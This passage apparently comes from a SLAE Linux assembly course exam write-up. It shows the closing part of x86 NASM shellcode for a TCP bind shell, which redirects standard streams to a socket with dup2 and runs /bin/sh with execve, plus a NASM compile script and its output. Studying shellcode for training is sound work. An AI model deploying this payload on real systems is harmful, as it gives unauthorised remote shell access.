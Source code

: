 ````nasm
	xor ecx, ecx	; clear ecx register
	mov cl, 3	; counter for file descriptors 0,1,2 (STDIN, STDOUT, STDERR)
	mov ebx, edx	; move socket into ebx (new int sockfd)

        loop_dup2:
        dec ecx         ; decrement ecx by 1 (new int sockfd)
	mov al, 0x3f  	; move the dup2 syscall code into the lower part of eax
        int 0x80      	; call interrupt to execute dup2 syscall
        jns loop_dup2   ; repeat for 1,0

        ; 6th syscall - execute /bin/sh using execve
        xor eax, eax	; clear eax register
	push eax        ; terminator placed onto the stack with value of 0
        push 0x68732f6e ; push the end of "//bin/sh", 'hs/n'
        push 0x69622f2f ; push the beginning of "//bin/sh", 'ib//'
        mov ebx, esp    ; move pointer to '//bin/sh' into ebx, null terminated
        push eax        ; terminator placed onto the stack with value of 0
        mov edx, eax    ; move pointer to '//bin/sh' into edx, null terminated
        push ebx        ; push 0 onto the stack
        mov ecx, esp    ; move pointer to '//bin/sh' into ecx, null terminated
	mov al, 0xb     ; move syscall code for execve into al
        int 0x80        ; call the interrupt to execute execve syscall, execute '//bin/sh' shell
````

#### POC (Assembly Code) 
------

The Assembly code is compiled by assembling with Nasm, and linking with the following bash script whilst outputting an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ cat compile.sh
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -o $1 $1.o

echo '[+] Done!'
```
The Assembly code compiled as an executable binary:

```bash
osboxes@osboxes:~/Downloads/SLAE$ ./compile.sh shell_bind_tcp
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
```

Strace is used to debug and monitor the interactions between the executable process and the Linux kernel, visually showing the system calls for the TCP bind shell:


[slae-link]: http:/securitytube-training.com/online-courses/securitytube-linux-assembly-expert
[github-code]: https://github.com/h3ll0clar1c3/SLAE/tree/master/Exam/Assignment1